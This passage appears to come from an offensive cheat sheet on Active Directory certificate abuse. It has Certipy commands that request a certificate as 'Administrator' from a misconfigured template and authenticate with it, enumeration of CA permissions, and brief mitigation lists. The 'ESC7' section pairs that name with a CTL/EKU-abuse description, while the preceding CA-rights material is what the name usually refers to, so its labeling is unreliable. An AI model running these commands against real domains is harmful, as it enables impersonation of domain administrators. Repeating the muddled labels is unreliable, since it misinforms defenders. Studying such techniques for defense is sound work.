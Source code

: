 ### Then request cert via Certipy
```bash
certipy-ad req -u attacker -p pass123 \
  -template ESC2LikeTemplate \
  -ca 'ca.domain.local\CA-NAME' \
  -upn 'Administrator@domain.local' \
  -pfx admin.pfx
```

## To Identify:
- Use **BloodHound** to identify CAs where you have rights:
  - Object type: `EnrollmentServices`
  - Rights like `GenericAll`, `WriteDACL`, `ManageCA`, etc.

```powershell
Find-InterestingACE -ResolveGUIDs | ? {$_.ObjectType -eq 'EnrollmentServices'}
```

- Enumerate CA settings using PSPKI or `certutil -dump` on a target machine

## Mitigation:
- Restrict administrative rights on Certificate Authorities.
- Audit ACLs on CA objects in AD.
- Use delegation carefully and avoid overly permissive CA permissions.
- Monitor changes to CA configuration and template associations.

---

# ESC7 – Vulnerable Certificate Template + CTL (Certificate Trust List) Abuse
An attacker can abuse a weak Certificate Trust List (CTL) or lack of EKU enforcement to enroll in a certificate template that enables authentication, even when EKUs or chain validation should restrict it.

## Requirements:
- You can enroll in a certificate template that:
  - Has weak or missing EKUs (or wrong ones like `Any Purpose`)
  - Is trusted for client authentication **due to lax CTL or EKU checking**
- The service (e.g., LDAP, PKINIT) does **not** enforce strict EKU validation
- No proper CTLs (Certificate Trust Lists) or EKU enforcement in place

## Impact:
You can get a certificate that appears valid for authentication, even if the template **was not intended** to be used that way — allowing identity spoofing and access to sensitive services.

## Example:
### Certipy:
```bash
# Request cert from a template with weak EKUs
certipy-ad req -u attacker -p password \
  -template WeakEKUTemplate \
  -ca 'ca.domain.local\CA-NAME' \
  -upn 'Administrator@domain.local' \
  -pfx admin.pfx

# Authenticate with the certificate
certipy-ad auth -pfx admin.pfx
```
